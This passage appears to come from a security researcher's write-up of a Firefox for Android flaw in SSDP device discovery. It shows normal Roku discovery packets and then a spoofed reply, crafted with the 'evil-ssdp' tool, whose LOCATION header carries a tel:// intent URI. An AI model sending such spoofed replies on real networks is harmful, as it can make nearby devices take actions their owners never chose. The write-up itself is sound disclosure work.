 The packets looked like this:

```
M-SEARCH * HTTP/1.1
```

This is Firefox asking if there are any Roku devices on the network. It would actually ask for other device types as well, but the device type itself isn't really relevant for this bug.

It looks like an HTTP request, right? It is... sort of. SSDP uses two forms of HTTP over UDP:

- **HTTPMU**: HTTP over multi-cast UDP. Meaning the request is broadcast to the entire network over UDP. This is used for clients discovering devices and servers announcing devices.
- **HTTPU**: HTTP over uni-cast UDP. Meaning the request is sent from one host directly to another over UDP. This is used for responding to search requests.

If we had a Roku on the network, it would immediately respond with a UDP uni-cast packet that looks something like this:

```
HTTP/1.1 200 OK
CACHE-CONTROL: max-age=1800
DATE: Tue, 16 Oct 2018 20:17:12 GMT
EXT:
LOCATION: http://192.168.1.100/device-desc.xml
OPT: "http://schemas.upnp.org/upnp/1/0/"; ns=01
01-NLS: uuid:7f7cc7e1-b631-86f0-ebb2-3f4504b58f5c
SERVER: UPnP/1.0
ST: roku:ecp
USN: uuid:7f7cc7e1-b631-86f0-ebb2-3f4504b58f5c::roku:ecp
BOOTID.UPNP.ORG: 0
CONFIGID.UPNP.ORG: 1
```

Then, Firefox would query that URI in the `LOCATION` header (http://192.168.1.100/device-desc.xml), expecting to find an XML document that told it all about the Roku and how to interact with it.

This is where the experimenting started. What if, instead of http://192.168.1.100/device-desc.xml, I responded back with an Android Intent URI?

I grabbed my old SSDP research tool [evil-ssdp](https://github.com/initstring/evil-ssdp), made some quick modifications, and replied with a packet like this:

```
HTTP/1.1 200 OK
CACHE-CONTROL: max-age=1800
DATE: Tue, 16 Oct 2018 20:17:12 GMT
EXT:
LOCATION: tel://666
OPT: "http://schemas.upnp.org/upnp/1/0/"; ns=01
01-NLS: uuid:7f7cc7e1-b631-86f0-ebb2-3f4504b58f5c
SERVER: UPnP/1.0
ST: upnp:rootdevice
USN: uuid:7f7cc7e1-b631-86f0-ebb2-3f4504b58f5c::roku:ecp
BOOTID.UPNP.ORG: 0
CONFIGID.UPNP.ORG: 1
```
